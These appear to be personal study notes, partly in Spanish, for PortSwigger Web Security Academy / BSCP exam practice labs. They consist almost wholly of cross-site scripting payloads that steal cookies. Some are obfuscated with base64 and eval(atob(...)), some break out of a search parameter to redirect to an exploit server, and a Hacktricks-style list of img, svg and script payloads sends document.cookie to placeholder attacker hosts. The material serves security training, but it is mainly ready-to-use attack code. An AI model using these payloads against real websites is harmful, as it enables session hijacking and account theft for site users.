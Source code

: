 ```js
document.location="https://0afb000804af601680e103b3008d009d.web-security-academy.net/?SearchTerm=%22-eval(atob('ZmV0Y2goJ2h0dHBzOi8vZXhwbG9pdC0wYWM4MDBkNTA0Njg2MDllODBkMjAyN2MwMTE2MDAyYS5leHBsb2l0LXNlcnZlci5uZXQvP2M9Jytkb2N1bWVudC5jb29raWUpCg=='))-%22"
</script>


find param BSCP PRACTICE EXAM APP #2
//?find="};location="exploit-lab.net/c?"+document.cookie;//
Luego dentro de script tag y un document.location
<script>
document.location="";
</scrip>


--------
<script>
document.location="https://0a7b001703c6f1aa80bc03cf001a006f.web-security-academy.net/?find=%22-eval(atob('ZmV0Y2goJ2h0dHBzOi8vZXhwbG9pdC0wYTY0MDA4MzAzZTFmMWM4ODA3ZTAyNTAwMTYyMDA0OC5leHBsb2l0LXNlcnZlci5uZXQvP2M9Jytkb2N1bWVudC5jb29raWUp'))-%22";
</script>


//backsticks alert "-alert`1`-"

"};location="https://exploit-0a64008303e1f1c8807e025001620048.exploit-server.net/c?"+document.cookie;//


<script>
document.location="https://0a7b001703c6f1aa80bc03cf001a006f.web-security-academy.net/?find=%22%7D%3B+location%3D%22https%3A%2F%2Fexploit-0a64008303e1f1c8807e025001620048.exploit-server.net%2Fc%3F%22%2Bdocument.cookie%3B%2F%2F";
</script>
//DECODEADO PARA ENTENDER QUE LA PARTE ENCODEADA A URL SOLO FUE EL PAYLOAD: 
<script>
document.location="https://0a67002d03a3e7e98043034c00d800cb.web-security-academy.net/?find="};location="https://exploit-0a4c0096033ee758802c024c0120001f.exploit-server.net/c?"+document.cookie;//";</script>

```


<hr>

## Hacktricks XSS - To steal cookie

```js
<img src=x onerror=fetch(`https://COLLABORATOR.com?collector=`+btoa(document.cookie))>

<img src=x onerror=this.src="http://<YOUR_SERVER_IP>/?c="+document.cookie>

<img src=x onerror="location.href='http://<YOUR_SERVER_IP>/?c='+ document.cookie">

<svg/onload=fetch(`//YOUR-COLLABORATOR-PAYLOAD/${encodeURIComponent(document.cookie)}`)>

<script>new Image().src="http://<IP>/?c="+encodeURI(document.cookie);</script>

<script>new Audio().src="http://<IP>/?c="+escape(document.cookie);</script>

<script>location.href = 'http://<YOUR_SERVER_IP>/Stealer.php?cookie='+document.cookie</script>

<script>location = 'http://<YOUR_SERVER_IP>/Stealer.php?cookie='+document.cookie</script>

<script>document.location = 'http://<YOUR_SERVER_IP>/Stealer.php?cookie='+document.cookie</script>
```